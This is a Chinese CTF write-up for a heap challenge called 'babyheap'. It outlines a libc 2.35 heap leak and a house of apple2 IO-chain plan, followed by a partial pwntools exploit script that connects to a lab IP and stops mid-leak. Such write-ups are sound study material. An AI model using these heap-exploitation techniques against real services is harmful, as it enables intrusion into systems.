 babyheap
========

- 题目中dele没有uaf，但是发现edit函数的长度固定为0x400

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-e85d0dcb25a040cb44fc04af15d8bb9e17f30566.png)

- libc2.35，所以要打IO,这里用house of apple2
- 利用add(0)泄露出heapbase，填满tcache利用unsorted bin泄露libcbase后，直接利用一次edit的漏洞来申请出\_IO\_2\_1\_stderr来布置IO链即可

```Python
from pwnlib.util.packing import u64
from pwnlib.util.packing import u32
from pwnlib.util.packing import u16
from pwnlib.util.packing import u8
from pwnlib.util.packing import p64
from pwnlib.util.packing import p32
from pwnlib.util.packing import p16
from pwnlib.util.packing import p8
from pwn import *
from ctypes import *
import ast
import struct
context(os='linux', arch='amd64', log_level='debug')
# p = process("/home/zp9080/PWN/pwn")
# p=gdb.debug("/home/zp9080/PWN/pwn",'b *$rebase(0x1A8F7)')
p=remote('192.168.18.22',8888)
# p=process(['seccomp-tools','dump','/home/zp9080/PWN/pwn'])
# elf = ELF("/home/zp9080/PWN/pwn")
libc=ELF("/home/zp9080/PWN/libc.so.6")
def dbg():
    gdb.attach(p,'b *$rebase(0x15E8)')
    pause()

menu=b"inputs your choice:"
def add(idx,size,cont):
    p.sendlineafter(menu,str(1))
    p.sendlineafter("input idx:",str(idx))
    p.sendlineafter("input size:",str(size))
    p.sendafter("input content:",cont)

def delete(idx):
    p.sendlineafter(menu,str(2))
    p.sendlineafter("input idx:",str(idx))

def show(idx):
    p.sendlineafter(menu,str(3))
    p.sendlineafter("input idx:\n",str(idx))

def edit(idx,cont):
    p.sendlineafter(menu,str(4))
    p.sendlineafter("input idx:\n",str(idx))
    p.send(cont)

#

#泄露heapbase
p.sendlineafter(menu,str(1))
p.sendlineafter("input idx:",str(0))
p.sendlineafter("input size:",str(0))
add(1,0x20,b'a')
delete(0)
# dbg()
p.sendlineafter(menu,str(1))
p.sendlineafter("input idx:",str(0))
```